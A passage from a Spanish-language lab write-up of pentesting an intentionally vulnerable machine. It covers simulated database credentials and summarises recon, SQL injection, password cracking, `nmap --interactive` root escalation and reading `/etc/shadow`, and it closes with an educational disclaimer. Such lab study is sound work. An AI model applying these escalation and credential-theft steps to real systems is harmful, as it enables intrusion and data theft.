
DVWA no me interesaba porque lo había sacado ya antes. De aquí lo que más podía interesarme era owasp10 y tikiwiki (alguna de las dos o las dos). 
Owasp10, desde luego, se veía interesante:

Los datos simulaban diversos datos muy personales que serían críticos en una vulnerabilidad real, como las tarjetas de crédito. Pero, como el resto de tablas, tenía también usuarios y contraseñas:

El problema es que OWASP10 no está habilitado en esta máquina, así que estas credenciales en verdad no valen para nada.


Con esto creo que puedo dar la máquina por terminada porque he cubierto básicamente todo el flujo típico de pentest: reconocimiento, enumeración, explotación, escalada de privilegios y post-explotación. 

Como resumen: 

**Reconocimiento y enumeración**

- Escaneo de puertos y servicios detectados (FTP, SSH, HTTP, MySQL, etc.).
- Identificación de aplicaciones vulnerables (DVWA, phpMyAdmin, TikiWiki, OWASP10).
- Observaciones iniciales (versiones antiguas, banners, configuraciones débiles).

Explotación

- Vulnerabilidades encontradas (SQLi, File Upload, credenciales en texto plano).
- Ejemplos de comandos utilizados (`mysql -e`, `john`, `nc`).
- Resultados: acceso a bases de datos, extracción de usuarios y contraseñas.

Escalada de privilegios

- Método usado (ej. `nmap --interactive` → root).
- Confirmación (`whoami`, `id`).
- Impacto: acceso completo al sistema.

Post‑explotación

- Lectura de `/etc/shadow`.
- Enumeración de servicios internos.
- Reutilización de credenciales en otros vectores.
- Impacto potencial: robo de datos, persistencia, control total.

El contenido de este trabajo es para fines educativos en entornos controlados. El autor no se hace cargo de posibles usos indebidos o maliciosos que puedan hacerse de la información que contiene. 
El propósito de estos ejercicios es aprender cómo funcionan las vulnerabilidades y mejorar las defensas de los sistemas. 
Estas son máquinas diseñadas específicamente para ser vulneradas y exploradas.
